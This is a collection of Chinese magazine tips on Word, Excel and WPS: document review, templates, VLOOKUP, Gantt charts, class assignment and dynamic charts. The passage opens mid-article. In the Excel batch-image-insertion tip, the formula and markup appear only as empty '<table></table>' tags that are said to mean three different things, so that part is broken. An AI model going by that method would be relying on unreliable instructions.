第三步：单击“下载”图标，在用户名和密码输入框中输入谷歌在线文档的账户和密码，单击“列表”按钮，即可打开所有的账户内的在线文档列表。选中文件的标题，单击“打开”即可在本地打开谷歌在线文档。
第四步：单击“上传”文档，即可上传文档。此时，登录谷歌在线文档，可以打开上传文档，共享给别人进行协同编辑。使用共享功能后，Google文件的“修订版本历史记录”功能不但可以记录所有用户手动更改、保存过的文档版本，有效防止误操作发生，还能让你在修改中针对同一文档的多个版本进行对比。
至此，功能强大免费的办公系统已经打造成功。朋友们，用着是不是有一种成就感呢？

## WPS 2009：材料送审，修修订订快又省

在办公室从事文秘工作的经常要写些总结、汇报或其他材料，而做业务的呢，是经常要做些诸如项目策划类的工作。不论是做业务的还是做文秘的，一般材料作好后都得先给领导或客户过目，待领导或客户通过后才能具体实施。我们完全可以借助WPS 2009的网络存储功能与修订、审阅相结合，使材料审阅修订又快又省。

## 网络传输方便、快捷

WPS 2009可以利用其网络存储方便快捷的优势，达到网络传输目的。首先是在“首页”中单击“网络文件”按钮，然后单击“注册并激活WPS通行证”。注册完成后就可以使用存储空间了。当在WPS中编辑好要审阅的材料后，单击“文件→另存为”，在打开的“另存为”对话框中，点击“网络文件”按钮，登录在线储存空间，将文件上传即可，这样审阅人就可以第一时间看到送审的材料了。

## 多人审阅，逐级修订

待分管领导收到审阅通知后，登录空间双击送审文档即可打开。首先是在工具栏的空白处右键单击鼠标，在“审阅”前打勾，显示“审阅”工具栏。并在“审阅”工具栏中单击“修订”按钮（也可按Ctrl+Shift+E），在要添加批注的位置单击鼠标，或选中文章输入修订内容，修订框将自动显示在文档右侧，文档中所做的诸如删除、插入或其他编辑更改的位置也将同时自动标记出来。

在修订过程中还可以对个别修订进行改动、删除等操作。单击修订框使其呈可编辑状态，即可对修订进行重新编辑、删除等操作。删除修订时，先用鼠标选中拒绝修订的内容，单击“拒绝所选修订”按钮右侧下拉箭头，选择“拒绝修订/删除批注”，然后右键单击修订框，执行删除即可。

## 落实审阅，整合文档

待接到各位分管逐级审阅完毕的通知后，我们再打开审阅后的文档，对文档进行整理。首先是用鼠标选择修订的部分，再用鼠标单击“接受所选修订”按钮右侧的下拉箭头，选“接受修订”即可。若是领导还有另有指示，可以用“批注”功能对，做出一定的批示。待所有批注添加完成后，单击“审阅”工具栏中“显示以审阅”框右侧的下拉箭头，选择“最终状态”，并传回存储空间。至此文档编辑、审阅、修订、审批工作全部完成，这样就可以将定稿的文档交付打印了。

(刘长德)

## 为Word创建个还原点

在系统中一般是可以创建还原点的,以便出现故障时可以恢复。在使用Word编辑文档的时候,往往也会出现保存退出又Word文档,又想要找回修改以前的内容的情况？我们也可以试着为Word创建一些还原点,来找回以前的内容。

首先，点击“文件→版本”菜单项，打开“新版本”对话框，再单击“现在保存”按钮，打开“保存版本”对话框，在“版本备注”文本框中输入备注信息。
确定保存即可。如果想要软件自动保存，在新版本对话框中勾选“关闭时自动保存版本”复选框即可。
如果需要还原以前保存过的Word文档内容，再次执行“文件→版本”菜单项，打开版本对话框，在“原有版本”标签组中单击选定保存过的版本，再单击“打开”按钮即可。

(山东/杯中水)

## 邀请模板巧梳妆 职场专业懒虫秘技偷传授

在商务会议多如牛毛的今天，公司凭什么让投资商看中自己的项目呢？我想最重要的还是创新能力。那就让我们从做一个有特色的商务邀请函开始你的成功之路吧。

## 微软模板就是让你偷懒用

老板交给的任务，我们的第一个想法就是——怎么才能偷懒呢？当点击“Office按钮→新建”项后，打开的向导窗口，就为你提供了偷懒的可能性，当然了专业偷懒可是要选对模板。从下面的表格中你可以了解到“邀请”模板下每项的具体用处。

| 模板名称 | 用途 | 备注 |
| :--- | :--- | :--- |
| 请柬 | 创建传统的中式请柬 | 适合用于传统会议或庆典 |
| 邀请函 | 创建现代商务风格邀请函 | 适合用于商务会议或活动 |
| ... | ... | ... |

## 制作有公司特色的邀请函

虽然微软已经提供了足够多的模板给我们，但如果不弄出点自己的特色，也没办法交待呀。做个特效字吧！就以“公司”二字为例，具体情况根据你的实际情况修改哦。

- 第一步：调出“分解图片”命令。鼠标点击“Office按钮→Word选项”。在弹出窗口左侧选择“自定义”菜单，在“从下列位置选择命令”的下拉菜单中选择“不在功能区中的命令”，接着在下面的提示框中找到“分解图片”命令，然后点击“添加”按钮，从而添加到“快速访问工具栏”。
- 第二步：输入艺术字。以模板“请柬7”为例，将光标定位到第一页，鼠标左键单击“插入→文本→艺术字”，在出现的下拉样式表中选择“艺术字样式1”。在出现的“编辑艺术字文字”设置框内，将字体设为“楷体”，字号设为96，文本输入“公司”（依实际情况改变），点击“确定”按钮。
- 第三步：将艺术字转换为图元文件。右键单击设置好的艺术字“公司”，在出现的快捷菜单中选择“剪切”命令。鼠标点击“开始→粘贴”，在出现的下拉菜单中选择“选择性粘贴”。随后会出现“选择性粘贴”设置框，在“形式”栏内选择“图片（Windows图元文件）”，单击“确定”按钮。
- 第四步：分解图元文件。选择“公司”图形，点击第一步中添加的快速访问工具栏的分解图片命令。“公司”图形就会被分解为若干个小图形。
- 第五步：为笔画单独着色。鼠标任意点击一下图形外区域，此时再用鼠标就可以分别选择“公司”两字的具体笔画了。现在就充分发挥你的设计能力，利用“绘图工具”中“格式”菜单下的“形状样式”等命令，将公司的名称设计成让人过目不忘的就行了。
- 第六步：将“公司”转换为GIF或PNG图片。鼠标右键单击“公司”图形，在出现的快捷菜单中选择“剪切”命令。鼠标点击“开始→粘贴”，在出现的下拉菜单中选择“选择性粘贴”。随后会出现“选择性粘贴”设置框，在“形式”栏内选择“图片（GIF）”或“图片（PNG）”，单击“确定”按钮。
- 第七步：鼠标右键选择“公司”（GIF）图片，在出现的快捷菜单中选择“设置图片格式”。在随后出现的“设置图片格式”设置栏内，选择“版式”选项卡，在环绕方式下选择“四周型”，点击“确定”按钮。然后将“公司”（GIF）图片旋转90度，接着按住Shift键的同时，调节图片到合适大小并调整位置。至此一个带有公司个性LOGO的商务邀请函就制作完成了。

## 偷懒偷出问题了？

林子大了，就是大林子；偷懒多了，就容易出问题了……

## 问题1：我打开“请柬3”时为何看不到模板预先设置好的邀请正文部分，而且文档中多出一页空白页？

形成原因：因为Word2007中默认“显示域代码”，而不是“域值”。正文部分是做在表格中，显示域代码后就会增加表格的高度值，打乱了预先设置好的表格位置。表格在第一页显示不了的情况下，就被“挤”到了第二页。“请柬3”中第二页的图片设置的“叠放层次”默认是“衬于文字上方”，所以挡住了邀请正文区，而多出来的段落标记，就形成了第三页空白页。
解决办法：不要随意做增减空格和段落标记的操作，这样会打破原来模板的设计位置。按快捷键CTRL+A全选后，再按快捷键Shift+F9键进行域代码切换即可。表格高度值降低后，邀请正文自然会恢复到原来的位置了。

## 问题2：在输入文字时模板文件中的艺术字及图片等元素会移动位置，影响整体效果，怎么办？

形成原因：因为艺术字及图片等元素设置了“对象随文字移动”选项，所以如果在它们的“定位标准”之上的文字移动时，它们就会跟随文字一起移动。
解决办法：在Word 2007中以艺术字为例，鼠标右击艺术字，在出现的快捷菜单中选择“设置艺术字格式”。在出现的“设置艺术字格式”设置框内选择“版式”选项卡，然后鼠标点选“高级”按钮。在“高级版式”设置框内点选“图片位置”选项卡，在“选项”设置栏内将“对象随文字移动”前的对勾取消。

## 问题3：我从MICROSOFT Office ONLINE网站上下载模板时，明明标着模板名为“足球盛会请柬”，怎么下载完成后，在“我的模板”中找不到这个文件呢？

形成原因：下载回来的模板文件默认安装在“我的模板”。默认安装路径是C:\DOCUMENTS AND SETTINGS\用户名\APPLICATION DATA\MICROSOFT\TEMPLATES。MICROSOFT Office ONLINE上有的邀请模板下载到本机后，会默认以英文名字存储。比如“足球盛会请柬”，它的英文名称就是SOCCER PARTY INVITATION，这就是找不到下载回来模板文件的原因。
解决办法：到如上所示的默认安装路径中，找到相应英文文件，将文件名更改为“足球盛会请柬”。再次打开Word2007，鼠标点击左上角的“Office按钮→新建”，在“新建文档”设置框下，点选“模板”下的“我的模板”，在“新建”设置栏内就会看到改回中文文件名的模板文件了。

## 职场专业懒虫秘技大放送

在浏览了所有邀请模板之后，觉得有两点体会要说一下，有利于大家更轻松地偷……不对，是使用与制作。

- ①要注意模板之间的组合与分解。其实Word邀请模板中的许多模板文件都是互为一体的。比如“带照片的毕业典礼请柬(纹理设计)”就是用“毕业典礼请柬(纹理设计)”、“毕业典礼请柬”、“带照片的毕业典礼请柬”三个模板文件中的图片、文本框、控件等多种元素组合而成的，反之亦然。
- ②要注意模板之间处理的方式与方法。比如模板“假日派对邀请函”，它很好地借助了颜色的反差关系，只是将原来的图片做了部分裁剪，并充分利用各种元素之间的层次关系，最后做好图片的定位工作就达到了很好的请柬美化效果，从而制作出图案互相配合的鸳鸯请柬效果。

最后就是打印了，一般在超市或办公用品店都有专门的A4或B5的彩色纸，可以直接用打印机打印，然后再买一些外面用的硬壳就成了。

(河北/葛宇)## 照片人名一对一 ——另类方法在Excel中批量插入图片

在Excel中可以插入图片，基本的操作是“插入→图片→来自文件”，一两张还可以用这方法，要是把张三、李四、王二麻子的照片依次和人名对应上，可就是个大问题了。
今天我介绍一种另类批量插入图片的方法，这种方法插入图片较为灵活，可以批量确定图片插入的位置，甚至可以随意隔行插入图片，以及在插入图片的同时确定图片大小、为插入的图片建立超链接等等。

第1步：打开需要插入图片的表格（见图1），默认图片保存在C盘根目录下，以“姓名”为图片名称。



第2步：在B2单元格输入公式="\<table\>\\</table\>"，向下复制公式至B5。

第3步：选择B2:B5，按住Ctrl键的同时连续按两次C。这样会将B2:B5之间的内容复制到剪贴板上，调出剪贴板，删除B2:B5的内容。将剪贴板中的内容，粘贴至B2单元格（见图2）。

第4步：在公式栏选择刚刚粘贴进来的文本，Ctrl+X剪切。单击B2单元格，点击“编辑→选择性粘贴→Unicode文本”，将刚才剪切的内容重新复制进B2单元格，文本变成了图片。



第5步：这样插入进来的图片都是原图片大小，需要将它们统一大小。按F5功能键，调出“定位对话框”，点击“定位条件→对象”，此时所有图片都已经被选中，右击后，选择“设置图片格式→大小”，将高度设为2.12厘米，宽度设为1.72厘米（见图3）。

这样批量插入的图片是按照公式的位置定位的，哪个单元格有公式，图片就插入到哪里。实际上，公式产生的代码为\<table\>\\</table\>。这种方法在插入图片的同时甚至可以设定图片大小，代码为\<table\>\\</table\>，意思是插入的图片在C盘根目录下的“张三.JPG”，按宽度65像素，高度80像素设置图片大小。如果想在插入的图片上设置超链接，代码为\<body\>\<a href="c:\张三.jpg"\>\\</a\>\</body\>

这个技巧同样适用于Word 2007，只是某些菜单选项的位置与Word 2003有细微差别，总体方法基本相同。



如果在指定位置查找不到该照片，代码将插入一个空对象。

为什么会产生这样的效果呢，我们知道Excel可以保存为网页文件，而网页文件也可以转换为Excel文件，说明Excel是支持网页代码的，但是Excel支持的网页代码有限，并不是全部支持。
即使是这样也能利用这一点为我们解决不少看似解决不了的问题，如批量更改单元格部分文字格式、批量建立或更改超链接，批量更改批注文字，输入带圈字符等等。看来Excel还有不少有待我们开发的宝藏。

(江西/法立明)

## 巧用WPS工资表单自动调顺序

工资改革后，县教育系统的工资信息每年都要整理一次，财政局常要求各学校按其下发的工资人员信息表的顺序来处理本校教师的工资信息。但由于各学校处理工资信息的人对计算机操作不熟练，做出来的顺序与财政局的工资表人员顺序不同，这导致财政局处理这些信息时比较烦。那使用计算机处理一下，是否会更快、更准确呢？我们只要掌握了WPS表格的函数VLOOKUP就可以。

### VLOOKUP 用来做什么

VLOOKUP是在表格或数值数组的首列查找指定的数值，并由此返回表格或数组当前行中指定列处的数值，即将一个数据通过与某数据表第一列比较，找出与其相对应的某列的值。
语法格式: VLOOKUP (查找值，数据表，列序数，[匹配条件])
参数分析:
查找值: 此参数表明需要在“数据表”中第一列需要查找的值。
数据表: 此参数指的是数据在哪查找。
列序数: 此参数指的是查找到符合值后，返回相对应的第几列数据。
匹配条件: 设置是否为精确匹配。

### 实战修正 “错乱的顺序”

对于有错序的修正，必须提供一份正确排序的数据信息。对于工资信息来讲，之前每个月发放工资的顺序是不变的，可以复制过来一份作为参数数据表。而由各学校未按顺序处理的表格，可参考这份正确顺序的信息表来修正。
假设sheet1保存有正确顺序的工资人员信息（见图1），再假设错序的信息表保存在Sheet2表中（见图2），对照两表，可以看到，只要能将错序的姓名加上正确的工资编号，然后再按工资编号排序一下就完成了修正工作。在这里为了使VLOOKUP函数结合姓名来查找工资编号，将正确顺序的sheet1工资编号与姓名位置互换一下（见图3）。
下面我们使用VLOOKUP函数把各人的工资编号从sheet1表中找出来。在Sheet2表B2单元格输入公式“=VLOOKUP(A2,Sheet1!$A$2:$B$12,2,FALSE)”并确定，即可找到张诚的正确工资编号了。为复制公式时数据表不发生变化，我们将公式修改为“=VLOOKUP(A2,Sheet1!$A$2:$B$12,2,FALSE)”，然后再执行复制操作，即可找到各人所对应的正确工资编号了。
最后，我们将sheet2表，按工资编号进行升序排序一次，即可实现正确排序了。

图1：Sheet1表格，A列为工资编号，B列为姓名（顺序正确）。

图2：Sheet2表格，A列为姓名，B列为空（顺序错乱）。

图3：Sheet1表格（调整后），A列为姓名，B列为工资编号。

(广东/周仁碧)

## 巧用自定义键盘 Word 2007快存DOC

Word中的快捷键是加快办公速度、提高工作效率的贴心设置。可由于命令太多，操作者有时会遇到忘记快捷键字母组合或某些常用命令没有预置快捷键的问题。Word 2007中特意准备了一个隐藏的“自定义键盘”，方便大家快速查找或修改快捷键的相关设置。而我的工作因为兼容性需要，所以经常需要保存Word 2003也就是DOC文档格式。下面就来看看我是如何添加快捷键的操作吧。

第一步：进入Word 2007后，同时按下“Ctrl+Alt+数字小键盘上的加号”键，此时光标会变成特殊图案。

第二步：单击“Office按钮→另存为→Word97-2003文档”（在进入级联菜单后，光标的特殊图案会变成默认光标图案），单击“自定义键盘”设置框“请按新快捷键”提示栏并输入Alt+CTRL+Q组合键，单击“将更改保存在”提示栏下NORMAL菜单，单击“指定”按钮。

第三步：再次按下Alt+Ctrl+Q组合键，会一步出现如图所示界面，节省了时间。

### 小提示：“自定义键盘”设置框中参数意义

“指定命令中”会提示操作命令的英文缩写；“指定键盘顺序”中“当前快捷键”提示栏会显示系统默认的快捷键字母组合，“请按新快捷键”下可以添加自己喜欢的快捷键组合，“将更改保存在”提示栏下可以选择快捷键存储位置，若选择NORMAL菜单，自定义快捷键将会应用于所有Word文档，若选择“当前文件名”菜单，自定义快捷键将只应用于当前文档；“说明”提示栏中显示操作命令的作用。



(河北/田静涛)

## MBA不过如此：灵活掌握进度 项目时间管理轻轻松松

说到“项目管理”，对很多人来说这是离自己遥远的事情，应该是BOSS级的人物才考虑的。其实，你做的每件事都可以算是一个项目，比如你要准备结婚，要去国外自由行，要写论文，甚至是游戏中的攻城战，项目管理都能用得上。

按照定义，项目就是在既定的资源和要求（包括物质、人力、时间等）的约束下，为实现某种目的而相互联系的一次性工作任务。从这来看连我们从小用到的“课程表”都可以算是项目了，可以说项目无处不在。

### 项目管理进度表的三要点

- 项目都需要执行什么工作
- 每项工作何时开始
- 如何将资源快速分配到工作中

### 项目管理“目的”第一

广告说得好：“不看广告，看疗效”，项目管理上最重要就是完成目的，如何减少完成目的花费的时间、资料成本，并且最后的比预定的目的完成的还要好都成了评判管理水平高低的要素。

### 项目管理的三种图表

为了能兼顾这么多的要素，一般来说我们会使用很多方法来辅助你完成项目管理。而常见的主要是使用图表工具。

- ①里程碑图：通过显示项目过程中事件、时间点、检查点等来跟踪项目进度，好处是提前发现问题，对重点环节有着不错的监控。
- ②网络图：用来表示工作流程的有向、有序的网状图形，有多种方法，有助于协助时间管控。
- ③甘特图：早在1910年就已经被亨利·甘特发明，通过条状图来显示项目进度和其他时间相关要素的进展情况，既简单又实用，是相当不错的项目管理入门工具。

### 甘特图的小知识：

其实甘特图就是条形图，线条表示项目任务，长度表示时间，不同颜色的矩形代表工作性质，横轴就是时间单位，可以以天、周、月等为单位。这种图表最擅长的就是对时间的把握，可以有效控制进度是否超前或落后，但是对于工作之间的关系没办法很好地表现出来，同时也没办法把握当某项工作落后时对整体项目的影响，而我们使用Excel来完成甘特图就可以通过轻松修改图表，在工作出现变化时可以做到快速修改。

### 学会项目时间管理

- 项目会在何时完成？
- 什么工作是必须要完成的？
- 工作由谁来完成才合适？
- 每项工作需要多少时间完成？
- 工作重要性和先后顺序如何安排？
- 如果进度落后，是否有解决方案？

### 将数据化为“甘特图”

用Excel制作“甘特图”非常容易，主要是先输入数据，然后将数据变为条形图，接着再进行适当的调整即可。

下文中的“甘特图”实例可从http://work.newhua.com/cfan/200921/gttsi.rar下载到。

第一步：先输入好项目资料，注意要将“开始日期”中的单元格格式设置为日期，在输入好“天数”后，将“结束日期”设置为=B2+C2的方式即可。

第二步：选中“天数”栏，右击选择“设置单元格格式”，在弹出窗口中选择“自定义”，在类型中修改为“0"天"”（不含外部中文引号），完成后增加“天”字。

第三步：选择A1:B8单元格，点击工具栏“插入”项下“条形图”中的“三维条形图”，这时甘特图的雏形就出现了。

第四步：选中表格，拖拽B8右下角的蓝点，拉至C8范围，这时表格会变为A1:C8，并且删除图表右侧的“开始日期”和“天数”两项。

第五步：点击工具栏中的“布局→图表标题→图表上方”，然后给你制作的第一个“甘特表”来个响亮的名字吧，继续点击“布局→数据标签→显示”，将开始日期及天数移到进度条中。

第六步：点击图表中“开始日期”的蓝色横条形部分，点击左上角的“设置所选内容格式”，将“填充”设置为“无填充”。

第七步：选择图表中最下面的时间横坐标，点击左上角的“设置所选内容格式”，修改好时间坐标轴项，分别为39995、40071和15。

第八步：选择天数下的红色横条图，选择“设置所选内容格式”，将底色设置为“渐变填充”。

第九步：点击左侧的工作项目，选择“设置所选内容格式”，勾选“逆序类别”。

经过细节的调整，甘特图就大功告成了。其实非常简单，怎么样，以后不管是制作PPT演示，还是老板交给的项目管理任务都可以用专业的图表制作出具体的流程了，下面关键的就看执行力了。

(北京/李丽华)

## 巧用WPS 快速进行自动分班操作

为新入校的初中生分班是一件比较麻烦的事，九年义务教育学校是不允许根据学生成绩进行分班的，所以各小学送上来的六年级学生名单只有两列：姓名、性别，学校要求实行自动编班，以实现校内义务教育均衡，分班要求如下：

- 要求来自各小学的学生轮流分到各班中。
- 各班的男生、女生比例要基本相同。

### 准备工作

假设学校辖区有8间小学，共有400名学生，要分8个班，按照上面第①点的要求，采用“轮回法”，则第1小学的第一个学生分到一班，第2小学的第一个学生分到二班……第8小学的第一个学生分到八班；接着第1小学的第二个学生分到八班，第2小学的第二个学生分到七班……第8小学的第二个学生分到一班。

### 数据调整

启动WPS，对分班数据进行调整。将各小学送上来的名单（电子表格格式）集中到一个电子表格中，每个小学一列。

第1步：新建工作表，命名为“新生自动分班”，将Sheet1重命名为“学生数据源”，Sheet2重命名为“新生名单”。



声明: 本文所涉例子及附件所用校名、新生名单均系虚构, 如有雷同, 纯属巧合

第2步：切换到存储学生数据的文档，将所有数据“复制、粘贴”到“新生自动分班\学生数据源”工作表中。

第3步：打开“学生数据”工作表，在第一个学校右侧列插入“毕业小学”、“识别编号”等列，以便作为编班依据，用鼠标直接框选列标字母CD，使这二列处于选中状态，在右键菜单中选“复制”，之后点第二个学校右侧的列标，在右键菜单中选“插入复制的单元格”（见图1）。重复以上操作，直至全部学校都设置。

第4步：复制题头的学校名字（A1）到“毕业小学”下（C3），并自动填充该校全部学生的毕业学校。

第5步：软件需要给每个学生一个识别编号，以便编班，本例中，按照“轮回法”，每个学校的第一个学生与第二个学生的编号差均为8，我们可以用WPS表格提供的填充序列完成这个操作，在“识别编号”的第一个单元格D3输入1，在D4输入9，选中这2个单元格，双击单元格右下角小黑十字控点（填充柄）或用鼠标下拉该控点，即可自动填充步长为8的等差编号，同理对其他校执行操作，这样第二学校的编号为2、10……第三学校的编号为3、11……依此类推，当然，你也可以调用“编辑→填充→序列”菜单进行操作。



### 数据汇总

将“学生数据源”工作表中的数据依学校顺序全部“复制/粘贴”到“新生名单”工作表的同一个序列中（见图2）。



这个操作可能要一点细心和时间，当然，也可能通过引用数据来进行，但如果你和我一样，讨厌繁杂的公式输入，那就用最简单且不易出错的方法（复制/粘贴）。想到为什么要建新工作表了吗？因为下面的步骤搞错了可以重来

### 按排序进行汇总分班

第1步：点击“数据→排序”的菜单项，在“主要关键字”以“性别”，“次要关键字”中以“识别编号”为关键词排序。

第2步：在E1中键入“班号”字样，然后从E2开始，按照循环填充班号：1-2-3-4-5-6-7-8→8-7-6-5-4-3-2-1……你可以先输入一个循环，其余的运用“复制/粘贴”大法搞定。

第3步：点击“数据→排序”的菜单项，在对话框的“主要关键字”和“次要关键字”中分别输入“班号”、“毕业小学”，进行排序。至此，分班完成。

### Just Do It

分班结束了，但后面还有些美化的操作，比如将“计数”替换为“班人数”、删除“识别编号”列等等。这些结束之后就是打印，你需要对页面进行设置，自己操作试试看。

(KKKdog)

## 金牌销售的Excel秘技：制作动态销售查询图表

在现代企业营销过程中，往往经常需要对多种销售数据进行统计分析，如果数据过于繁杂，查看起来就比较麻烦，这时候应用图表是一种非常不错的查看方式，但是如果数据内容项目较多，就需要多张图表才能够显示所有数据，那么查阅起来还是比较麻烦，这时候可以通过Excel设计一种动态图表，这样就可以仅用一张图表，就可以查阅所有的数据，而且可以根据自己的特殊需要，进行个性设计，下面就以某公司2009年1~9月份相关销售数据的动态图表制作为例，来介绍具体的操作方法。本文所用到的表格实例可以从http://work.newhua.com/cfan/200922/xcjlb.rar下载到。

### 第1步：整理相关销售数据，定义区域相关名称

由于此公司的销售数据涉及销售收入、费用、利润等内容，数据内容较多，因此为了便于以后的图表制作，应该对相关的销售数据予以分门别类整理，并对不同的相关数据予以定义名称。启动Excel，打开某公司的销售数据统计表，如“东海科技有限公司2009年销售明细表.xls”，将其中的“销售相关统计数据”工作表中的销售收入、费用、利润分别单独整理列表，然后按下Ctrl+F3组合键，在弹出的“定义名称”对话框中，输入“收入”，然后在下面的引用位置输入销售输入所在的数据区域“=销售相关统计数据!$A$8:$K$13”，采用同样的方法，依次定义“费用”的引用位置为“=销售相关统计数据!$A$18:$K$23”；“利润”的引用位置为“=销售相关统计数据!$A$28:$K$33”；“片区”引用位置为“=销售相关统计数据!$A$8:$A$13”，最后关闭此对话框（见图1）。



### 第2步：利用窗体以及数据有效性，进行多功能动态图表的基础工作

在前面定义名称的基础上，就可以进行设计动态图表的工作，新建一个工作表，将其命名为“查询图表”，为了便于以后按照销售数据类别进行查询，可以设计几个选项按钮，执行“视图→工具栏→窗体”命令，在弹出的窗体工具栏选项面板中，选择“选项按钮”，将其拖动到此工作表的上方，然后将此选项按钮命名为“销售收入”，并右击此选项按钮，从弹出的命令菜单中选择“设置控件格式”命令，在弹出的对话框中，选择“控制”选项卡，将其中的“单元格链接”选项设置$H$1单元格（见图2）。采用同样的方法，再添加两个选项按钮，并将其分别命名为“费用”、“利润”，其单元格链接也都设置为$H$1。为了便于根据选项按钮，而自动显示相应的数据类别名称，在H2单元格中输入公式“=CHOOSE($H$1,"销售收入","费用","利润")”，这样当单击“销售收入”选项按钮时，在H2中就会自动显示“销售收入”文本，其他选项按钮类推，同时将H2单元格定义名称为“标题”。另外由于在查询销售数据时，一般需要按照销售片区进行查询，比如同时查看三个片区的数据对比情况，因此在H3单元格中输入“请选择需要查阅的片区：”文本，然后选择H4:H6区域，执行“数据→有效性”命令，在弹出的对话框中的“设置”选项卡中，从“允许”选项列表中选择“序列”选项，然后在下面的“来源”框中输入“=片区”，关闭此对话框（见图3）。最后H4、H5、H6单元格分别定义为“片区1”、“片区2”、“片区3”。





### 第3步：妙用函数，设计动态图表

由于设计动态图表，必须能够动态地引用源销售表的相关数据，在“查询图表”的E26单元格中输入公式“="2009年1~10月份各个片区"&标题&"统计相关明细表"”，将“销售相关统计数据”中的列标题，如销售片区、2009年1月份、2009年2月份等内容复制到A28:K28区域中，然后在A29中输入公式“=VLOOKUP(片区1,INDIRECT(标题),COLUMN(),FALSE)”，B29中输入公式“=VLOOKUP(片区1,INDIRECT(标题),COLUMN(),0)”；A30中输入公式“=VLOOKUP(片区2,INDIRECT(标题),COLUMN(),FALSE)”，B30中输入公式“=VLOOKUP(片区2,INDIRECT(标题),COLUMN(),0)”；A31中输入公式“=VLOOKUP(片区3,INDIRECT(标题),COLUMN(),FALSE)”，B31中输入公式“=VLOOKUP(片区3,INDIRECT(标题),COLUMN(),0)”，并将这些公式复制到后面对应的单元格区域中（见图4）。



小提示：此处利用了VLOOKUP、INDIRECT、COLUMN等函数，其作用是根据片区以及销售数据类别，而自动将“销售相关统计数据”工作表中相应的数据引用到对应的单元格中。需要编辑动态查询图表时，就非常简单了，执行“插入→图表”命令，在弹出的图表向导对话框中选择一种图表类型，如“折线图”中的“数据点折线图”类型，然后按照向导提示操作即可，最后修改下图表格式，并给图表添加标题，为了便于引用E26中的标题内容，单击标题框，然后在编辑栏中输入公式“=查询图表!$E$26”，这样当需要查看某数据类别以及具体片区图表时，只需要单击相应的数据类别选项按钮，如利润，并选择需要查看对比的三个片区，如华东、华南、本省，就可以立即在图表中显示出来了，而且图表标题也随之而动（见图5）！



实际上通过上面的方法不仅可以应用在销售数据图表制作上，而且可以应用在其他很多方面，如生产数据统计、财务分析以及大型数据分析上，只需要修改相应的定义名称以及选项按钮即可。
(山东/WJ)有很多时候我们需要把Word文档转为文本格式与人交流，有时也不是所有人都在用Office 2007，所以为了与同事共享文档，也可能要把Word 2007的文档转为Word 2003版本。当然平常一两个文档用Word打开再另存不是什么麻烦事，如果有批量的需要转换，如何快速方便地进行转换就非常重要。利用“就果果”独家在CFan上发布的小工具——就果果Word文档转换器(http://work.newhua.com/cfan/200922/doc2.rar)就可以快速完成Word文档的转换。下载后，双击程序即可进行注册。

## 超快速一键转文本

要在资源管理器找到文件，用鼠标右击（见图1），只要点菜单中的“另存为文本”即可生成同名的文本文件。

### 小提示：

- ★ 如果是同一目录下面有各类文件，比如DOC、WPS、RTF、DOCX都可以一起统统转文本。
- ★ “就果果Word文档转换器”还能完成从DOCX到DOC格式的转换，当鼠标右击DOCX文档，就会有“另存为Word 2003”的选项。

## 众多文档超级批量转

现在领导有要求了，把我们工作目录下面的所有DOC、RTF文档，统统转成文本发他一份。
这一下我们要利用Windows的搜索功能了，我们利用资源管理器的搜索功能，把指定的多个目录搜索出所需要的DOC、RTF、DOCX等文档（见图2）。
这些在不同目录下的不同类别的文件，统统选中，再点鼠标右键中的“另存为文本”，接下来就让Word忙去吧……

(浙江/徐怀平)





## 绘图测量数字化，我有“德威”显身手

绘图和测量是数学教学中经常用到的技能，实物的教具具有诸多局限，比如学生无法看到具体数字，绘图时老师挡住了学生视线，教具有尺寸的限制等。“德威几何尺”（下载地址：http://work.newhua.com/cfan/200921/dwruler.rar）的出现为我们提供了许多便利，实现了绘图测量的无纸化。
德威几何尺是一款几何教具仿真软件，软件提供了电子直尺、三角板、半圆量角器、圆形量角器等功能，可在很多软件，比如画图、Word、AutoCAD中使用。既可方便用于长度、角度的测量，也可便利地进行直线、弧线等的绘制，工具可以任意缩放大小、旋转角度和拉伸长度。

### 测量线段长度

软件安装运行后，显示为一条半透明的直尺。首先，按住鼠标左键拖动直尺使其0刻度对齐立方体的左下角，然后将光标指向右端左侧的空心圆形，指针变成环形箭头，这时按住鼠标可以调整尺子的旋转角度，使刻度线与对角线重合，从而可以读出对角线的长度为7.65cm。如果直尺长度不够，将光标指向右侧十字圆形，指针变成十字箭头，可以调整尺子的长度。

### 测量角度

在几何尺上单击鼠标右键，在弹出的菜单中选择“半圆量角器”选项，用鼠标左键按住并拖动量角器的中心点到角的顶点位置，然后调整角度使0刻度线与角的一条边重合，从而可以读出角的度数为27度。

### 绘制边线为10厘米的35度的角

首先，将几何尺切换到直尺工具，并在右键菜单中勾选“吸附鼠标”选项。然后打开画图软件并选择刷子工具，按住鼠标左键沿直尺从左至右绘制一条10厘米长的线段。选择半圆量角器工具，并使中心点与线段左端重合，调整好量角器的大小后，在35度刻度线位置单击绘制一个点。重新选择直尺工具，使0刻度线与线段左端重合，然后调整好直尺的角度使上方的刻度线与绘制的点重合，最后按住鼠标从左下方至右上方绘制一条10厘米的线段即可。

### Just Do It

绘制直径10厘米30度的扇形，想想看应该怎么去实现呢？

(山东/杯中水)

## 巧用文本框，《简报》制作也专业

每当学校举行运动会或是什么重大活动后，学校都会组织“小记者”们及时采访、跟踪报道，并印成《简报》进行宣传。就是平时也会以简报的形式对校内的教育、教学及好人好事等进行宣传报道，以引导广大师生弘扬正气、爱岗敬业。经过试用多款软件，发现都不理想，直到使用WPS后，不但文件小、反应速度快、资源占用低，而且某些功能是Microsoft Office远不可比拟的，尤其是其文本框的“允许文字绕排外部对象”功能，对于《简报》的版面编排简直就是量身定做，令人拍案叫绝。

### 利用文本框，《简报》巧编排

当简报的版面编排在脑海中初步形成方案后，打开我们以前保存的《简报》模板，在菜单栏中单击“插入→文本框→横（或竖）向”，然后在文档中拖动鼠标，画出文本框，并将文本框拖到合适的位置。这样只要我们在文本框中单击鼠标，就可以在文本框中输入文字了。待编辑完成后，在文本框的边框上右击鼠标，在打开的右键菜单中，选择“设置对象格式”，然后在单击“文本框”选项卡，选中“重新调整自选图形以适应文本”，再单击“线条与颜色”选项卡，在“线条”组中单击“颜色”，选择“无线条颜色”，文本框边框就会自动隐藏，并且还会随文字内容自动调整其大小。

### 小提示：

除了文字外，“文本框”还可以插入图片，这可以更灵活地处理版面。



### “允许文字绕排外部对象”：复杂版面任意排

大家看报纸时可能只注意报纸内容，而不太注意其版面设计，其实版面设计学问大了去了，既要吸引人的眼球，同时还要结构清晰易读。
